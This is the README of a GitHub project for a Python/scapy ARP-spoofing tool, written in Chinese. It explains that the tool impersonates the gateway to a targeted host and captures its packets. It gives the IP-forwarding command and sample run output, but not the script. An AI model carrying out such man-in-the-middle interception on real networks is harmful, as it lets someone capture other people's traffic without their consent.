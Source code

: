 # ARP-poison-attack-py
伪装为网关，抓包保存。
功能：伪装为网关，抓包保存。 使用scapy库

此代码是定向欺骗，广播欺骗可以自己修改代码。

必须在Linux下以root身份运行。

运行代码前记得设置IP转发功能：sysctl net.ipv4.ip_forward=1

例：

sudo python arper.py 
WARNING: No route found for IPv6 destination :: (no default route?)
[*] Setting up eno1
30:0e:d5:c7:33:b7
[*]Gateway 10.63.63.250 is at 30:0e:d5:c7:33:b7
[*]Target_ip 10.63.1.45 is at 00:e0:b4:16:18:a3
[*] Beginning the arp poison.[CTRL -C to stop.]
 [*]Starting sniffer for 1000 packets 
[*] Restoring target ...
已杀死
